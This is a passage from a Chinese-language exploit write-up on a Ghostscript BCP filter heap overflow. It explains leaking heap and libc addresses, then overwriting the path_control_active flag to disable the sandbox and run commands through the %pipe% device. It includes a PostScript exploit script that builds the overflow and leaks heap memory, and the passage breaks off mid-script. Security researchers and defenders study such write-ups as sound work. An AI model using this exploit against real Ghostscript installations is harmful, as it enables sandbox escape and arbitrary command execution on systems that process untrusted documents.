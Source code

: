 [![](assets/1706771701-e7e4e1b3fb14163c71dbb0af49297a1d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129202454-685400f2-bea1-1.png)

但是还有一个问题，system 的函数地址我们并不知道。不过我们可以找到这样一个结构：在 procss 结构之前，有一个读和写功能，这便可以从堆中泄漏 libc 地址并调用。有了这些信息，利用方法就相当简单了。

作为一种完整的语言，PostScript 提供了在磁盘上读写文件的方法。它甚至可以通过写入%pipe%设备来调用子流程。显然，由于 Ghostscript 经常处理来自不可信来源的文件，因此它调用了一个沙箱，阻止 PostScript 程序读取或写入某个白名单之外的文件。此验证是在 base/gpmisc.c 中的 gp\_validate\_path\_len 函数中完成的。可以发现前几行是用来检查沙箱是否处于活动状态：

```plain
/* mem->gs_lib_ctx can be NULL when we're called from mkromfs */
if (mem->gs_lib_ctx == NULL ||
    mem->gs_lib_ctx->core->path_control_active == 0)
    return 0;
```

mem 变量实际上是复杂上下文结构的一个子结构，它保留了当前执行状态中的所有信息。`path_control_active`变量可在`i_ctx_p->memory->current->gs_lib_ctx->core->path_control_active`中找到。上下文结构也位于堆中，因此泄漏堆指针应该足以定位 path\_control\_active 变量。通过任意写入，可以覆盖此变量，而不会导致进程崩溃，然后使用%pipe%语句即可调用任何命令。

从堆中获取泄漏很简单。在流结构中，覆盖游标读取指针（curr->cursor->r->ptr）将强制下一个流复制所有数据，直到该指针为止。但是，在 s\_xBCPE\_process 函数的最后一行（以及稍后在 stream\_compact 函数中），此指针会被覆盖到其先前的值。然后，下一个字节流将数据复制到 stdout：

```plain
% - -> a long string
/createOverflow {
    ()
    1 1 2045 {pop <41> concatstrings}for
    <1313> concatstrings %escaped char
    1 1 15  {pop <42> concatstrings} for
}def
% (leak) -> leak as hexadecimal string 
/leakAsString{
    /myString 16 string def
    /asciiToHexFilter myString /ASCIIHexEncode filter def
    asciiToHexFilter exch writestring
    asciiToHexFilter flushfile
    myString
}def 
% - -> a 8 bytes leak from the heap (i/o pool)
/leakMemory{
    /leakBuffer 5000 string def
    /leakMemoryFilter leakBuffer /NullEncode filter /BCPEncode filter def
    createOverflow
    <4343434343434343> concatstrings % s->templat
    <4444444444444444> concatstrings % s->memory
    <4545454545454545> concatstrings % s->report_error
    <4646464646464646> concatstrings % s->min_left
    1 1 80   {pop <47> concatstrings }  for   % s->error_string
```
